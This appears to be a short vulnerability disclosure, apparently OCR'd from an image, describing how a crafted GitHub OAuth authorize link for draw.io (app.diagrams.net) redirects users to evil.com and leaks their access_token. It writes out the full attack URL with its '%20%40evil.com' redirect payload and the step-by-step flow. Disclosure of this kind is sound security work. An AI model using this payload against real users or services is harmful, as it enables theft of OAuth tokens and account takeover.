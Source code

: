 ```http
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 70b0c6119831273d-FOR
```

The steps of the attack are:

1. An attacker creates an third-party authorize link, with the payload `%20%40evil.com` on the `redirect` parameter :
`https://github.com/login/oauth/authorize?client_id=Iv1.98d62f0431e40543&state=cId%3DIv1.98d62f0431e40543%26domain%3Dapp.diagrams.net%26redirect%3dhttps%3a%2f%2f%20%40evil.com%2f%26token%3Dplrpdrqccuavr39ta3h5bcmjoghhk2le7tdiflbm3ljpe4tdqj`

2. The user accepts to connect draw.io with Github

3. The user is redirected back to app.diagrams.net

4. The user is redirected to evil.com, leaking the `access_token`

the power of an space
ψ( ` ∇ ´ )ψ
